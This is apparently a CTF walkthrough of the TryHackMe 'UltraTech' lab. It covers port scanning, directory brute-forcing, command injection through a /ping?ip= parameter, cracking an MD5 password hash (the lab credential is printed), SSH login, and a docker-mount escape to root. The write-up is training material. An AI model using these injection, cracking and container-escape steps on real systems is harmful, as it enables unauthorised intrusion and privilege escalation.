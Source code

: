 ```yaml
---

title: UltraTech
published: true
category: CTF
system: web
walkthrough-type: thm
source: https://tryhackme.com/room/ultratech1
Description: The basics of Penetration Testing, Enumeration, Privilege Escalation and WebApp testing
tags: security, pentest, enumeration, web
---
```


# Notes

Given some inspiration, and if we get stuck keep enumerating because I for sure will miss something.

> You have been contracted by UltraTech to pentest their infrastructure.
> It is a grey-box kind of assessment, the only information you have
> is the company's name and their server's IP address.

* * * 

- `sudo nmap -p- ultratech.thm -vvv -T 4`
- `sudo nmap -sC -sV -sT -O -p21,22,31331,8081 ultratech.thm`

```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc668985e705c2a5da7f01203a13fc27 (RSA)
|   256 c367dd26fa0c5692f35ba0b38d6d20ab (ECDSA)
|_  256 119b5ad6ff2fe449d2b517360e2f1d2f (ED25519)
8081/tcp  open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), Linux 5.4 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Linux 3.10 (92%), Linux 3.12 (92%), Linux 3.19 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.44 seconds
```

perform some gobuster scans on the open servers

during the gobuster scan 8081 we find 2 routes auth and ping the 31331 doesnt yeild much results.

```
/auth                 (Status: 200) [Size: 39]
/ping                 (Status: 500) [Size: 1094]
/Ping                 (Status: 500) [Size: 1094]
/Auth                 (Status: 200) [Size: 39]
```

found a login page at `/partners.html` on 31331 that was refrenced in the sitemap.txt but not linked to in the website.

this form sends a GET request to /ping?ip=ultratech.thm

which sends a GET request to /auth?login=admin&password=pass on :8081

then sends another request back to /ping

capturing the request in burpsuite and sending to the repearing the ping is actually executing ping on the machine, maybe we can do something with this.

trying many requests finally using tilda apostrophe thing manage to get the response of the sqlite db utech.db.sqlite

using cat we can get r00t hash f357a0c52799563c7c7b76c1e7543a32 and crack.

- `hashcat -m 0 f357a0c52799563c7c7b76c1e7543a32 /usr/share/seclists/Passwords/rockyou.txt`

r00t:n100906

we can login via ssh

checking id shows us we are in a docker container, maybe we can escape. 

we can list available docker images with `docker ps -a`, then escape with `docker run -v /:/mnt --rm -it bash chroot /mnt sh`

as root we can access our final flag which is the first 9 chars of the root's private ssh key which is located in `/root/.ssh/`